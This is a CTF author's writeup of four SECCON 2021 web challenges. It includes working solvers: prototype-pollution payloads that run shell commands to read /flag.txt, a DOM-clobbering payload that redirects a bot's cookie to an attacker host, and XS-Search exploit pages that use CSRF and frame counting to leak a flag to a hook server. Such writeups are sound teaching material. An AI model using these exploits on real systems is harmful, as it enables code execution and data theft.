



Thank you for playing SECCON CTF 2021! I hope you had fun.
I created the following web challenges in the CTF:

- Sequence as a Service 1
- Sequence as a Service 2
- Cookie Spinner
- x-note


This post describes author writeups and unintended solutions[^unintended] for the above 4 challenges.
If you know other solutions, please report to [me](https://twitter.com/arkark_).

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).

I added the source code and author's solvers to [my-ctf-challenges](https://github.com/arkark/my-ctf-challenges) repository.

<!-- truncate -->

## Sequence as a Service 1

- 20 team solved / 205 pt
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202112_SECCON_CTF_2021/web/sequence-as-a-service-1

Description:
> I've heard that SaaS is very popular these days. So, I developed it, too. You can access it here.

### Overview



In the endpoint `/api/getValue`, you can post a pair of a sequence and an index ($n$) to get the $n$-th value of the sequence.

The web service parse and evaluate the given sequence with [LJSON](https://github.com/MaiaVictor/LJSON) in a subprocess.
LJSON provides a parse function and a stringify function for extended JSON with pure functions. Moreover, `LJSON.parseWithLib(lib, ...)` enable to use functions in `lib`.

```javascript title="index.js"
/* snip */

fastify.get("/api/getValue", async (request, reply) => {
  const sequence = request.query.sequence;
  const n = request.query.n;
  if (sequence == null || n == null) {
    reply.code(400).send("Invalid params");
    return;
  }

  try {
    const result = await execFile("node", ["./service.js", sequence, n], {
      timeout: 1000,
    });
    reply.send(result.stdout);
  } catch (err) {
    /* snip */
  }
});

/* snip */
```

```javascript title="lib.js"
const lib = {
  "+": (x, y) => x + y,
  "-": (x, y) => x - y,
  "*": (x, y) => x * y,
  "/": (x, y) => x / y,
  ",": (x, y) => (x, y),
  "for": (l, r, f) => {
    for (let i = l; i < r; i++) {
      f(i);
    }
  },
  "set": (map, i, value) => {
    map[i] = value;
    return map[i];
  },
  "get": (map, i) => {
    return typeof i === "number" ? map[i] : null;
  },
  "self": () => lib,
};

module.exports = lib;
```

```javascript title="service.js"
const LJSON = require("ljson");
const lib = require("./lib.js");

const sequence = process.argv[2];
const n = parseInt(process.argv[3]);

console.log(LJSON.parseWithLib(lib, sequence)(n));
```

The flag location is `/flag.txt` in the remote server.

### Solution

My solution is to gain RCE by injecting a function into the prototype of `lib`.

```javascript title="solver/index.js (comments are added)"
/* snip */

// Reads `/flag.txt`
const code =
  'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()';

let evilSequence = LJSON.stringify(($, n) =>
  $(
    ",",
    // Makes the prototype of `$("self")` into `Function.prototype`
    $("set", $("self"), "__proto__", $),
    // Executes `code` => RCE
    $("constructor", code)()
  )
);

const params = new URLSearchParams({
  sequence: evilSequence,
  n: 0,
});

const main = async () => {
  const text = await (
    await fetch(`${SECCON_URL}/api/getValue?${params}`)
  ).text();
  console.log(text);
};
main();
```

### Unintended Solutions

#### `$("self").__proto__ = require('child_process')`

- https://nanimokangaeteinai.hateblo.jp/entry/2021/12/14/223037#Web-205-Sequence-as-a-Service-1-20-solves

#### Using a bug in the parser of LJSON

- https://org.anize.rs/SECCON-2021/web/sequence_as_a_service

## Sequence as a Service 2

- 19 team solved / 210 pt
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202112_SECCON_CTF_2021/web/sequence-as-a-service-2

Description:
> NEW FEATURE: You can get values from two sequences at the same time! Go here.

### Overview



In the endpoint `/api/getValue`, you can post **two** pairs of a sequence and an index ($n$) to get the $n$-th value for each sequence.

```javascript title="index.js"
/* snip */

fastify.get("/api/getValue", async (request, reply) => {
  const sequence0 = request.query.sequence0;
  const n0 = request.query.n0;
  const sequence1 = request.query.sequence1;
  const n1 = request.query.n1;
  if (sequence0 == null || n0 == null || sequence1 == null || n1 == null) {
    reply.code(400).send("Invalid params");
    return;
  }

  try {
    const result = await execFile(
      "node",
      ["./service.js", sequence0, n0, sequence1, n1],
      {
        timeout: 1000,
      }
    );
    reply
      .header("Content-Type", "application/json; charset=utf-8")
      .send(result.stdout);
  } catch (err) {
    /* snip */
  }
});

/* snip */
```

```javascript title="lib.js"
const lib = {
  "+": (x, y) => x + y,
  "-": (x, y) => x - y,
  "*": (x, y) => x * y,
  "/": (x, y) => x / y,
  ",": (x, y) => (x, y),
  "for": (l, r, f) => {
    for (let i = l; i < r; i++) {
      f(i);
    }
  },
  "set": (map, i, value) => {
    map[i] = value;
    return map[i];
  },
  "get": (map, i) => {
    return typeof i === "number" ? map[i] : null;
  },
};

module.exports = lib;
```

```javascript title="service.js"
const LJSON = require("ljson");
const lib = require("./lib.js");

const sequence0 = process.argv[2];
const n0 = parseInt(process.argv[3]);
const sequence1 = process.argv[4];
const n1 = parseInt(process.argv[5]);

console.log([
  LJSON.parseWithLib(lib, sequence0)({}, n0),
  LJSON.parseWithLib(lib, sequence1)({}, n1),
]);
```

This challenge differs from SaaS 1 in the following points:

- `lib` doesn't have the function `self`.
- For each request, `LJSON.parseWithLib` is executed twice.

### Solution

My solution is to gain RCE by Prototype Pollution.

```javascript title="solver/index.js"
/* snip */

// Inverse of https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L397
const toNumber = (name) => {
  const alphabet = "abcdefghijklmnopqrstuvwxyz";
  let number = 0;
  for (const c of name.split("").reverse()) {
    number *= alphabet.length;
    number += alphabet.indexOf(c);
  }
  return number;
};

const code = 'require("child_process").execSync("cat /flag.txt").toString()';

// A source of Prototype Pollution
const evilSequence0 = LJSON.stringify(($, map, n) =>
  $("set", $("set", map, "__proto__", null), "polluted", toNumber("eval"))
);

// A sink of Prototype Pollution
const evilSequence1 = LJSON.stringify((a, b, c) => a(code)).replace(
  "a(",
  "polluted("
);

const params = new URLSearchParams({
  sequence0: evilSequence0,
  n0: 0,
  sequence1: evilSequence1,
  n1: 0,
});

console.log(params);

const main = async () => {
  const text = await (
    await fetch(`${SECCON_URL}/api/getValue?${params}`)
  ).text();
  console.log(text);
};
main();
```

`LJSON.parse` disallows usage of variables that don't exist in the scope:

```javascript
// From: https://github.com/MaiaVictor/LJSON/blob/0c06399baddc08ede6457a59505e188ec0828dab/LJSON.js#L315-L324
function LJSON_variable(binders,scope){
    return function(){
        var name = P.word();
        if (name === null)
            return null;
        if (scope[name] === undefined)
            throw ("LJSON parse error: "+name+" is not defined");
        return toName(scope[name]);
    };
};
```

However, by the above Prototype Pollution, you can use the variable (function) `eval` although it doesn't exist in the scope.

### Unintended Solutions

#### Prototype Pollution to `Array.prototype.join`

- https://satoooon1024.hatenablog.com/entry/2021/12/15/SECCON_CTF_2021_Writeup#Sequence-as-a-Service-2-19-solves

#### `require('./lib.js').__proto__ = require('child_process')`

- https://nanimokangaeteinai.hateblo.jp/entry/2021/12/14/223037#Web-210-Sequence-as-a-Service-2-19-solves

#### Prototype Pollution using `toString` defined as an impure function

```javascript
LJSON.stringify(($, map, n) => $(",",
  $(",",
    $(",", $("set", map, 0, $("set", map, "__proto__", 0))),
    $(",",
      $("set", map, "toString", () =>
        $(
          ",",
          $("set", map, 100, $("get", map, 101)),
          $(",", $("set", map, 101, "constructor"), $("get", map, 100))
        )
      ),
      $("set", $("get", map, 0), "_constructor", $("set", $, map, 0))
    ),
  ),
  $(
    "_constructor",
    'return global.process.mainModule.constructor._load("child_process").execSync("cat /flag.txt").toString()'
  )(),
));
```

(reported from ./V)

#### Using a bug in LJSON's parser

- https://org.anize.rs/SECCON-2021/web/sequence_as_a_service

## Cookie Spinner

- 7 team solved / 322 pt
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202112_SECCON_CTF_2021/web/cookie-spinner

Description:
> Do you like cookies? If so, go here now!

### Overview


This challenge provides the following web page:

```html title="index.html"
<!DOCTYPE html>
<html>

<head>
  <title>Cookie Spinner</title>
  <link rel="stylesheet" href="/static/main.css">
</head>

<body>
  <form action="/report" method="post">
    You got a cookie? Report to me if you didn't:
    <input name="url" type="text" placeholder="https://example.com" required>
    <button>report</button>
  </form>
  <div>
    {{VIEW}}
  </div>
  <script nonce="{{NONCE}}">
    if (document.cookie.length == 0) {
      const sweets = "🍦/🍧/🍨/🍩/🎂/🍰/🧁/🥧/🍫/🍬/🍭/🍮/🍯".split("/").join("/🍪/").split("/");
      document.cookie = "cookie=" + sweets[Math.floor(Math.random() * sweets.length)];
    }
  </script>
  <script nonce="{{NONCE}}">
    const main = () => {

      const cookie = new URLSearchParams(location.search).get("cookie");
      if (cookie) {

        document.querySelector("#cookie").textContent = cookie;
        document.cookie = "cookie=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; // I ate your cookie 😋

      } else {

        // `window.window` is `window`
        // So, `window.window.window` is also `window`.
        // It means `window.window. ... .window` is also `window`!

        const wInDoW = new URLSearchParams(location.search).get("window") || "window";
        try {
          const WINDOW = window;
          const window1 = WINDOW[wInDoW];
          const window2 = window1[wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW];
          const window3 = window2[wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW][wInDoW];
          if (window2 === window3) {
            WINDOW.location.href = window1.location.origin + window1.location.pathname + "?" + (WINDOW.location.search + "&").slice(1) + document.cookie;
          }
        } catch (e) {
          console.error(e);
        }

      }

    };

    if (document.querySelector("meta") != null) {
      console.error("I hate <meta> tags :(");
    } else {
      main();
    }
  </script>
</body>

</html>
```

You can modify `{{VIEW}}` with query parameter `view`. So, it enables content injection. However, you cannot attack with XSS by CSP:

```javascript
app.use((req, res, next) => {
  const nonce = crypto.randomBytes(32).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `default-src 'self'; script-src 'nonce-${nonce}'; base-uri 'none';`
  );
  req.nonce = nonce;
  next();
});
```

In this challenge, you can report a URL and then a bot accesses it with a flag cookie.

### Solution

This challenge is a DOM Clobbering puzzle. The goal is as follows:

- No errors occur.
- `window2 === window3` is true.
- `window1.location.origin` can be changed as you like. So, you can make the bot redirect to your server.

My intended DOM Clobbering:
```javascript
const SECCON_URL = /* the URL of the challenge server */;
const HOOK_URL = /* the URL of your server */;

const main = async () => {
  const view = `
      <form>
        <input id="form" name="form">
      </form>
      <a id="form" name="location" href="${HOOK_URL}"></a>
    `;
  const reportUrl = `http://web:3000/?window=form&view=${encodeURIComponent(view)}`;
  const body = new URLSearchParams();
  body.append("url", reportUrl);

  await fetch(`${SECCON_URL}/report`, {
    method: "POST",
    body,
  });
};
main();
```

The mechanism of this DOM Clobbering in Chrome is as follows.

Now, consider the following HTML and `?window=form`:
```html
<form>
  <input id="form">
</form>
<a id="form" name="location" href="https://example.com"></a>
```

`window.form` is an instance of `HTMLCollection` because there are multiple elements with `id="form"`. The instance has the `<input>` element and the `<a>` element.

1. `window.form.form` is the `<input>` element because it has `id="form"` attribute.
1. `window.form.form.form` is the `<form>` element because `HTMLInputElement` has `form` property.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLInputElement#properties
1. `window.form.form.form.form` is the `<input>` element.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement#properties
      > Named inputs are added to their owner form instance as properties, and can overwrite native properties if they share the same name (e.g. a form with an input named action will have its action property return that input instead of the form's action HTML attribute).
1. `window.form.form.form.form.form` is the `<form>` element.
1. `window.form.form.form.form.form.form` is the `<input>` element.
1. ...
1. `window2` is the `<input>` element.
1. ...
1. `window3` is the `<input>` element.

Then, `window2 === window3` is true.

1. `window.form.location` is the `<a>` element because it has `name="location"` attribute.
1. `window.form.location.origin` is `"https://example.com"` because `HTMLAnchorElement` has `origin` property.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLAnchorElement#properties
1. `window.form.location.pathname` is `"/"` because `HTMLAnchorElement` has `pathname` property.
    - ref. https://developer.mozilla.org/en-US/docs/Web/API/HTMLAnchorElement#properties

Then, the page is redirected to `https://example.com/`.

### Other Solutions

You can exploit with not `form` property, but another property.

#### DOM Clobbering with `parentNode` property

- https://gist.github.com/po6ix/b3101d07d55a4506777f940eb5a2ad48

#### DOM Clobbering with `parentElement` property

```
http://web:3000/?window=parentElement&view=<form id="parentElement" name="parentElement"><input name="parentElement"></form><a id="parentElement" name="location" href="http://evil.example.com/"></a>
```

(reported from ./V)

#### DOM Clobbering with `ownerDocument` property without `<form>`

- https://balsn.tw/ctf_writeup/20211211-secconctf2021/#cookie-spinner

## x-note

- 3 team solved / 428 pt
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202112_SECCON_CTF_2021/web/x-note

Description:
> Here is a secure note app!
> Flag format: `SECCON{[_0-9a-z]+}`

### Overview

This challenge provides a web service:

- A user can create an account, login, and logout.
- A user can post a note with a string.
- A user can search for notes that contain a string.
- A user can report a URL to a bot.
    - The bot accesses it after creating an account and posting a flag note.




### Solution

My solution is a XS-Search attack. The goal is to construct an oracle to judge the prefix of a flag.

#### Step 1: CSRF and posting object notes

You can make a bot post notes as objects by CSRF.
For example, if the form body is
```
note[toString]=x&note[a]=SECCON{a&note[b]=SECCON{b&note[c]=SECCON{c&...
```
then the note is the following object:
```javascript
{
  "toString": "x",
  "a": "SECCON{a",
  "b": "SECCON{b",
  "c": "SECCON{c",
  /* ... */
}
```

Note the following:

- The note will cause an error when rendered in EJS because the `toString` is not a function.
- The note will come up with searches for `?search=SECCON{a`, `?search=SECCON{b`, `?search=SECCON{c`, and so on.

#### Step 2: Two kinds of EJS rendering errors

There are two kinds of errors caused by `note[toString]=x` in EJS rendering.

Error A (if the note is hit first for a search):
```html
/app/views/index.ejs:22
    20|         <section class="modal-card-body">
    21|           <article class="message">
 >> 22|             <pre class="message-body is-dark"><%=
    23|               hitCount > 0 && filteredNotes[0] || 'Not found ...'
    24|             %></pre>
    25|           </article>

Cannot convert object to primitive value
```

Error B (otherwise):
```html
/app/views/index.ejs:70
    68|             <% notes.forEach((note) => { %>
    69|               <article class="message">
 >> 70|                 <pre class="message-body"><%= note %></pre>
    71|               </article>
    72|             <% }); %>
    73|           </div>

Cannot convert object to primitive value
```

In this web servcie, if an error occurs, the request is redirected to an error page:
```javascript
app.use(function (err, req, res, _next) {
  res.redirect(`/error?msg=${err.message}&url=${req.url}`);
});
```
This redirect is implemented without encoding (e.g. `encodeURIComponent`). It means that the Error A adds a query parameter `" filteredNotes"` to the redirected request:
```javascript
> require("qs").parse("msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba")
{
  msg: '/app/views/index.ejs:22\n' +
    '    20|         <section class="modal-card-body">\n' +
    '    21|           <article class="message">\n' +
    ' >> 22|             <pre class="message-body is-dark"><%=\n' +
    '    23|               hitCount > 0 ',
  ' filteredNotes': [ '' ],
  url: '/?search=SECCON{a'
}
```

#### Step 3: Infinite redirects and finite redirects

The key factor in this step is a validation for request parameters:
```javascript
const hasTooLongParams = (params) => {
  return _.some(params, (v) => v.length > 500);
};

app.use((req, _res, next) => {
  if (hasTooLongParams(req.body) || hasTooLongParams(req.query)) {
    throw new Error("<marquee>Too long params</marquee>");
  } else {
    next();
  }
});
```

Now, consider the following search URL:
```
http://x-note-x.quals.seccon.jp:3000/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```

The redirected URL for Error A is
```
http://x-note-x.quals.seccon.jp:3000/error?msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000
```
Then, this query parameters are parsed as follows:
```javascript
> require("qs").parse("msg=/app/views/index.ejs:22%0A%20%20%20%2020%7C%20%20%20%20%20%20%20%20%20%3Csection%20class=%22modal-card-body%22%3E%0A%20%20%20%2021%7C%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2022%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%20is-dark%22%3E%3C%25=%0A%20%20%20%2023%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20hitCount%20%3E%200%20&&%20filteredNotes[0]%20%7C%7C%20%27Not%20found%20...%27%0A%20%20%20%2024%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%25%3E%3C/pre%3E%0A%20%20%20%2025%7C%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000")
{
  msg: '/app/views/index.ejs:22\n' +
    '    20|         <section class="modal-card-body">\n' +
    '    21|           <article class="message">\n' +
    ' >> 22|             <pre class="message-body is-dark"><%=\n' +
    '    23|               hitCount > 0 ',
  ' filteredNotes': { '0': '', '1': 'x', length: '100000' },
  url: '/?search=SECCON{a'
}
```
The redirected request violates the validation for request parameters because `req.query[" filteredNotes"].length > 500` is true. So, it is redirected to the error page again and the second redirected request also violates the validation. This means that infinite redirects will occur.

On the other hand, the query parameters of the redirected URL for Error B are parsed as follows:
```javascript
> require("qs").parse("msg=/app/views/index.ejs:70%0A%20%20%20%2068%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%25%20notes.forEach((note)%20=%3E%20%7B%20%25%3E%0A%20%20%20%2069%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Carticle%20class=%22message%22%3E%0A%20%3E%3E%2070%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Cpre%20class=%22message-body%22%3E%3C%25=%20note%20%25%3E%3C/pre%3E%0A%20%20%20%2071%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3C/article%3E%0A%20%20%20%2072%7C%20%20%20%20%20%20%20%20%20%20%20%20%20%3C%25%20%7D);%20%25%3E%0A%20%20%20%2073%7C%20%20%20%20%20%20%20%20%20%20%20%3C/div%3E%0A%0ACannot%20convert%20object%20to%20primitive%20value&url=/?search=SECCON%7Ba&+filteredNotes=x&+filteredNotes[length]=100000")
{
  msg: '/app/views/index.ejs:70\n' +
    '    68|             <% notes.forEach((note) => { %>\n' +
    '    69|               <article class="message">\n' +
    ' >> 70|                 <pre class="message-body"><%= note %></pre>\n' +
    '    71|               </article>\n' +
    '    72|             <% }); %>\n' +
    '    73|           </div>\n' +
    '\n' +
    'Cannot convert object to primitive value',
  url: '/?search=SECCON{a',
  ' filteredNotes': [ 'x', { length: '100000' } ]
}
```
The redirected request passes the validation because `req.query[" filteredNotes"].length > 500` is false.

Thus, the two kinds of errors can make the difference between infinite redirects and finite redirects.

#### Step 4: XS-Leak with frame counting


The templete of the error page is
```html
<!-- snip -->
              </div>
              <div class="message-body">
                <%- msg %>
              </div>
            </article>
<!-- snip -->
```

Because this page outputs unescaped `msg`, you can cause Content Injection there. However, XSS Injection is banned by CSP:
```javascript
app.use((req, res, next) => {
  const nonce = crypto.randomBytes(32).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `default-src 'self'; script-src 'nonce-${nonce}'; base-uri 'none';`
  );
  req.nonce = nonce;
  next();
});
```

Now, consider the output of `msg` contains `<iframe></iframe>`.

If the error page is rendered, it increments `window.length`. However, if infinite redirects occur, the page is not rendered and `window.length` is not incremented.

By a well-known technique[^xs-leak], you can access the `window.length` from a cross-site page. So, you can detect whether infinite redirects have occurred.

[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/

#### Exploitation code

Therefore, you can construct an oracle to judge the prefix of a flag by combining the above steps.

You can steal the flag by serving the following pages on your server:

```html title="index.html"
<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>

    const baseUrl = "http://web:3000";
    // const baseUrl = "http://localhost:3000";

    const hookUrl = "http://your-hook-server.example.com"

    const sleep = msec => new Promise(resolve => setTimeout(resolve, msec));
    const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

    const search = async (prefix) => {
      const w = open(`/post.html?prefix=${encodeURIComponent(prefix)}&url=${encodeURIComponent(baseUrl)}`);
      await sleep(1000);
      w.close();

      const ws = [];

      for(const c of chars) {
        const injected = ' filteredNotes';

        const params = new URLSearchParams();
        params.append("search", prefix + c);
        params.append(injected, "x");
        params.append(injected + "[length]", "100000");
        params.append("msg", "<iframe></iframe>");

        ws.push(open(`${baseUrl}/?${params}`));
      }

      await sleep(2000);

      let nextChar = null;
      for(let i=0; i<ws.length; i++) {
        if (ws[i].length > 0) {
          nextChar = chars[i];
        }
        ws[i].close();
      }
      return nextChar;
    }

    const main = async () => {
      let prefix = "SECCON{"

      while(true) {
        await fetch(`${hookUrl}?flag=${encodeURIComponent(prefix)}`); // debug

        const c = await search(prefix);
        if (c == null) break;
        prefix += c;
      }

      location = `${hookUrl}?flag=${encodeURIComponent(prefix)}`;
    };

    main();
  </script>
</body>
```

```html title="post.html"
<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>
    const submit = (url, pairs) => {
      const form = document.createElement("form");
      form.action = url;
      form.method = "post";
      for (const [k, v] of pairs) {
        const input = document.createElement("input");
        input.name = k;
        input.value = v;
        form.appendChild(input);
      }
      document.body.appendChild(form);
      form.submit();
    };

    const main = async () => {
      const params = new URLSearchParams(location.search);
      const url = decodeURIComponent(params.get("url"));
      const prefix = decodeURIComponent(params.get("prefix"));
      const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

      const pairs = [];
      for (const [i, c] of chars.entries()) {
        pairs.push([`note[${i}]`, prefix + c]);
      }
      pairs.push(["note[toString]", "x"]);

      submit(`${url}/createNote`, pairs);
    };

    main();
  </script>
</body>
```

### Unintended Solutions

#### Using `<meta name="referrer" content="unsafe-url">` to judge the two kinds of EJS errors

- https://gist.github.com/parrot409/bc09cefe891708930200c8b61d3f5c16
- https://gist.github.com/po6ix/b3101d07d55a4506777f940eb5a2ad48
